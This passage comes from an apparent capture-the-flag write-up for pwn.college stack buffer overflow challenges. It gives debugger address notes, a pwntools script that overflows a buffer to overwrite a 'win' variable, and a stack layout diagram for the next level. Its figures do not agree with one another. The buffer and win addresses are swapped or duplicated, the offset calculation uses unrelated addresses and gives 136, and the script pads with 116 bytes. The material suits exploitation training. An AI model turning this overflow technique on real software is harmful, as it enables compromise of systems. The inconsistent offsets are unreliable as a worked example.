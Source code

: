 * The location of the win variable is `0x7ffc615eec14`.
* So we have all the information we need:
  * [x] Location of buffer: `0x7ffc615eec14`
  * [x] Location of win variable: `0x7ffc615eeba0`
  * [x] Value being compared to win variable: `0x47ba9894`
* Let's find the distance between the buffer and win variable in order to get the length of our payload padding.

```
gef➤  p/d 0x7fff0c8f8e98 - 0x7fff0c8f8e10
$3 = 136
```

* We are all set to craft our payload.

```python
from pwn import *

padding = b'A' * 116
payload = padding + p64(0x47ba9894)

p = process('/challenge/babymem_level2.1')
p.recvuntil('size:')
p.sendline('200')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```



## level 3.0

> Overflow a buffer and smash the stack to obtain the flag!

{% code fullWidth="false" %}
```
            +---------------------------------+-------------------------+--------------------+
            |                  Stack location |            Data (bytes) |      Data (LE int) |
            +---------------------------------+-------------------------+--------------------+
esp ------> | 0x00007ffd2e328c00 (rsp+0x0000) | a0 e4 b2 ce d6 7f 00 00 | 0x00007fd6ceb2e4a0 |
            | 0x00007ffd2e328c08 (rsp+0x0008) | b8 9d 32 2e fd 7f 00 00 | 0x00007ffd2e329db8 |
            | 0x00007ffd2e328c10 (rsp+0x0010) | a8 9d 32 2e fd 7f 00 00 | 0x00007ffd2e329da8 |
            | 0x00007ffd2e328c18 (rsp+0x0018) | dd 75 9d ce 01 00 00 00 | 0x00000001ce9d75dd |
            | 0x00007ffd2e328c20 (rsp+0x0020) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | 
            | 0x00007ffd2e328c28 (rsp+0x0028) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  
            | 0x00007ffd2e328c30 (rsp+0x0030) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | \  
            | 0x00007ffd2e328c38 (rsp+0x0038) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  \ 
	    | 0x00007ffd2e328c40 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007ffd2e328c48 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |---- buffer
	    | 0x00007ffd2e328c50 (rsp+0x0050) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007ffd2e328c58 (rsp+0x0058) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007ffd2e328c60 (rsp+0x0060) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  /
	    | 0x00007ffd2e328c68 (rsp+0x0068) | 00 9c 32 2e fd 7f 00 00 | 0x00007ffd2e329c00 | / 
	    | 0x00007ffd2e328c70 (rsp+0x0070) | d0 11 40 00 00 00 00 00 | 0x00000000004011d0 |
	    | 0x00007ffd2e328c78 (rsp+0x0078) | 30 8c 32 2e fd 7f 00 00 | 0x00007ffd2e328c30 |
ebp ------> | 0x00007ffd2e328c80 (rsp+0x0080) | b0 9c 32 2e fd 7f 00 00 | 0x00007ffd2e329cb0 | <------ saved ebp of previous frame
	    | 0x00007ffd2e328c88 (rsp+0x0088) | 9f 2a 40 00 00 00 00 00 | 0x0000000000402a9f | <------ return address
	    +---------------------------------+-------------------------+--------------------+
```
{% endcode %}
